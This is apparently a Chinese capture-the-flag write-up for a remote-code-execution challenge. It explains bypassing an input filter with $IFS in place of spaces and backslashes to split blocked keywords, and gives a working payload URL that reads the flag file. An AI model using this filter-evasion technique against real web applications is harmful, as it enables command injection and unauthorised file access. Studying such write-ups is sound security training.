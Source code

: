 ## 题目描述

RCE, remote code execution，泛指能在远端机器上执行任意代码的情况。可是网站管理员添加了种种入侵检测，这该如何是好？

## 题解

一个比较基础的命令执行绕过trick，空格被过滤可用	`$IFS`，可通过`\`来绕过对关键词的过滤

![image-20210921140203388](C:\Users\Cys\AppData\Roaming\Typora\typora-user-images\image-20210921140203388.png)

`http://47.93.215.154:5000/?rce=ca\t$IFS./f\lag.php`

![image-20210921140310843](C:\Users\Cys\AppData\Roaming\Typora\typora-user-images\image-20210921140310843.png)